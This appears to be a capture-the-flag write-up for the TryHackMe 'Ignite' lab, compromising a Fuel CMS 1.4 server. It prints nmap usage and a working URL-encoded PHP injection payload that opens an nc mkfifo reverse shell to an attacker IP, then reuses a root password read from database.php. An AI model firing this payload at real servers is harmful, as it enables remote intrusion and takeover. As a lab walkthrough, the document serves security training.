










<h1 align="center"><a href="https://tryhackme.com/room/ignite" download>Ignite CTF</a></h1> 

## User.txt

Boot up the machine and start nmap scanning

```
nmap -Sc -Sv -v 10.10.205.153
```
Wee can see an open 80 port HTTP server with Fuel CMS





Lets check the **robots.txt**. There we found interesting path

```
Disallow: /fuel/
```
We are greeted by a login form



Lets look for available exploits for Fuel CMS 1.4

Fine, i think first version is suitable



On exploitDB


Ok, let's visit https://www.revshells.com/ and Put IP and PORT For reverse shell and select "nc mkfifo" and copy code to https://gchq.github.io/CyberChef/ and select encode all special characters.



Replace the **urllib.quote(xxxx)** to our encode shell like:

from this

```
10.10.205.153/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
```

to this

```
10.10.205.153/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20%2Di%202%3E%261%7Cnc%2010%2E8%2E157%2E18%209001%20%3E%2Ftmp%2Ff%27%29%2b%27
```

start ncat and.. we are in



Fine, lets stabilize reverse shell



I checked the directories for a long time and found **database.php**, there is a password of root, let's try it

Bim Bum



And here are our flags))




